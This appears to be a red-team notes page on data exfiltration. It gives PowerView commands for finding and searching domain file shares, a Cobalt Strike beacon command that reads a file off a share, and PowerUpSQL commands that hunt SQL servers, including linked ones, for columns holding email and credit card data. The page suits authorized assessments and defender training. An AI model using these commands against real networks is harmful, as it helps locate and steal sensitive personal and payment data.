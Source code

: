 ```yaml
---
title: Exfiltration
category: Red Team
order: 16
---
```


Organizations will store data in a wide variety of places from file shares, databases, SharePoint, internal wiki's, etc...

> **Note**: When planning the assessment, a good strategy to suggest is to create dummy data. It is not recommended to carry out exfiltration tests with real data (Problems with GDPR).

# File Shares

We can search for shares on a domain.

* PowerView (dev):
```powershell
Find-DomainShare 
Find-DomainShare -CheckShareAccess
```

`Find-InterestingDomainShareFile` searches inside each share, and returns results where the specified strings appears.

* PowerView (dev):
```powershell
Find-InterestingDomainShareFile -Include *.doc*, *.xls*, *.csv, *.ppt*
```

Finally we can download it:

```
beacon> powershell gc \\share.corp.io\share\export.csv | select -first 5
```

# Databases

`PowerUpSQL` provides various cmdlets designed for data searching and extraction.

`Get-SQLColumnSampleDataThreaded` can search one or more instances for databases that contains particular keywords in the column names.

```
beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "email,address,credit,card" -SampleSize 5 | select instance, database, column, sample | ft -autosize
```

This can only search the instances where we have direct access, it will not try any SQL link. To search over the links use `Get-SQLQuery`.

```
 beacon> powershell Get-SQLQuery -Instance "sql-2.corp.local,1433" -Query "select * from openquery(""sql-1.external.local"", 'select * from information_schema.tables')"
```